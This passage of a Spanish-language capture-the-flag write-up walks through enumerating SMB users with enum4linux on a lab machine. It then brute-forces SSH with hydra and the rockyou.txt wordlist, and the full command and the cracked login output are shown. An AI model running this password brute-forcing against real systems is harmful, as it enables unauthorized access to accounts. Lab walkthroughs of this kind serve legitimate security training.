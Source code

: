 Y bueno encontramos informacion util `J` que supongo que es un usuario le esta diciendo a `K` que `hash` se crackeo muy facil y le esta diciendo que cambie su contraseña asi que podemos pensar que lo mas seguro es que la contraseña de `K` este en el `rockyou.txt` pero bueno no sabemos el nombre de los usuarios vamos a ser fuerza bruta con `hydra` para poder tener la contraseña del usuario

Hay una herramienta en Kali linux que se llama `enum4linux` yo estoy en parrot os asi que vamos <https://www.kali.org/tools/enum4linux/> yo tengo errores al instalar la herramienta en parrot os pero si estan en kali pueden usarla sin problemas y sera mejor 

Bueno como es un CTF decidi hacer un diccionario con nombres comunes que empiezen con `k` y `j` asi que este fue el resultado

```
jace
jack
jackie
jacob
jackson
jan
jaiden
james
jamey
jared
jarod
kevin
kay
katy
kenner
kailan
karin
kenly
```

Probe la herramienta en `kali linux` y me reporto 2 usuarios validos `jan` y `kay` ya que la herramienta funciona para smb 
Vamos a ver si tenemos suerto haciendo fuerza bruta directo al servico `ssh`

Para ahorrar tiempo vamos usar solo a `jan` y si no encontramos nada pues ponemos al siguiente usuario aunque le puedes pasar un archivo con el nombre de los 2 pero bueno 

```bash
❯ hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.255.61 ssh -t 4
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-02-28 19:10:06
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://10.10.255.61:22/
[STATUS] 44.00 tries/min, 44 tries in 00:01h, 14344355 to do in 5433:29h, 4 active
[STATUS] 28.00 tries/min, 84 tries in 00:03h, 14344315 to do in 8538:17h, 4 active
[STATUS] 29.14 tries/min, 204 tries in 00:07h, 14344195 to do in 8203:23h, 4 active
[STATUS] 23.79 tries/min, 404 tries in 00:16h, 14343995 to do in 10049:53h, 4 active
[22][ssh] host: 10.10.255.61   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-02-28 19:42:00
```
